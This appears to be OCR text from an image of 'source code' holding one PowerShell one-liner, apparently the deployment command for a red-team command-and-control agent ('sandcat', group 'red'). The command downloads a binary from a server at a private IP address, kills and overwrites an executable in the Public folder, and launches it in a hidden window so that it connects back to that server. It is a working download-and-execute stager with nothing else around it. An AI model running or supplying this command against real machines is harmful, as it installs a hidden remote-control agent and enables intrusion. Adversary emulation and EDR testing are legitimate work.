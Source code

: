 $server="http://10.99.156.123:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\edrtest.exe"} | stop-process -f;rm -force "C:\Users\Public\edrtest.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\edrtest.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\edrtest.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
